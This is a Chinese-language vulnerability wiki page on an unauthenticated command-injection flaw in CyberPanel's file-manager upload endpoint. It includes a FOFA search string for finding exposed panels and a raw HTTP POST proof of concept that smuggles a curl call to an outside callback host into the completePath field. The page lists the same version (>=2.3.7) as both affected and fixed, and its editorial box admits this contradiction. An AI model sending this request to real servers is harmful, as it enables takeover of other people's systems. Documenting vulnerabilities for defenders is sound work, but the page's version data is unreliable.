



# CyberPanel filemanagerupload 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：应归运维面板；输入completePath纯curl是否到shell执行以及必要鉴权绕过步骤缺源码/响应文本，现文不充分。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响>=2.3.7与修复>=2.3.7完全重叠，关键版本信息自相矛盾
- PoC未放代码块，`<target>`会被HTML吞掉，实际domainName前提未交代
- 15万资产是搜索结果不等于受影响实例，在野利用/广泛性未给来源
- 只给tag链接，需精确修复commit与版本；无清理上传文件说明

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

# 漏洞描述

该漏洞源于filemanager/upload接口未做身份验证和参数过滤，未授权的攻击者可以通过此接口远程加载恶意文件获取服务器权限，从而造成数据泄露、服务器被接管等严重的后果。目前该漏洞技术细节与EXP已在互联网上公开，鉴于该漏洞影响范围较大，建议用户尽快做好自查及防护。

# 影响版本

CyberPanel >= v2.3.7

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="CyberPanel"

POC/EXP：

POST /filemanager/upload HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----NewBoundary123456789

------NewBoundary123456789
Content-Disposition: form-data; name="domainName"

<target>
------NewBoundary123456789
Content-Disposition: form-data; name="completePath"

curl http://5zx162b1.eyes.sh
------NewBoundary123456789
Content-Disposition: form-data; name="file"; filename="poc.txt"

pwn
------NewBoundary123456789--

影响资产超15w,可直接命令执行，危害极大。

# 修复方案

目前官方已有可更新版本，建议受影响用户升级至最新版本：

CyberPanel >= v2.3.7

官方下载地址：

https://github.com/usmannasir/cyberpanel/tree/v2.3.7

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
